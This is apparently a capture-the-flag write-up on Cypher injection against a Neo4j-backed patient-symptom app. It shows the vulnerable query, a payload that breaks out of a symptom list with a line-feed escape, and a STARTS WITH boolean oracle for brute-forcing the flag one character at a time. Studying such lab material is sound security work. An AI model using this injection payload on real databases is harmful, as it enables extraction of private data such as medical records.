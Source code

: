 Nice :astonished: 

But... You can only add disease symptoms for one SSN at a time, which means you need to create a new SSN from scratch each time.

Okay, the original query is like this:
```sql
MATCH (p:Patient {ssn: '${ssn}'})
MATCH (s:Symptom) WHERE s.name in [${symptoms}]
MERGE (p)-[r:HAS]->(s)
```

I will escape the square bracket `[${}]` by using `']`.

Alright, next, I will use a query to retrieve data from the `Flag` label.

Like this:
I will use boolean injection to check the flag result.

I will use boolean injection to check the flag result.

In Cypher Query Language (CQL), there is a way to check if the returned data starts with a different string using `STARTS WITH`.

resource [here](https://neo4j.com/docs/cypher-manual/current/clauses/with/).

![](https://hackmd.io/_uploads/S1YU8Svhn.png)


Ex:
```sql
MATCH (n:Flag) where n.flag starts with 'abc' return n.flag
```

![](https://hackmd.io/_uploads/rygRUHPnh.png)

=> return False

```sql
MATCH (n:Flag) where n.flag starts with 'ctf' return n.flag
```
![](https://hackmd.io/_uploads/H1lJPHP32.png)

=> return True

Based on this, I can brute force each character to guess what the next character might be.

![](https://media.giphy.com/media/XzvaqOqhktzcsDWxic/giphy.gif)

payload: `']\u000aMATCH (f:Flag) WHERE f.flag STARTS WITH '####'//`

:::success
In the character string, `\u000a` is an escape sequence representing a Unicode character. Specifically, `\u000a` corresponds to the line feed character in Unicode.
:::


- Test with burpsuite

:::danger
Take note, here you should prepend some symptoms of a specific disease to make the returned result different.
:::
Ex: I choose the group of symptoms for the `Diabetes` disease.
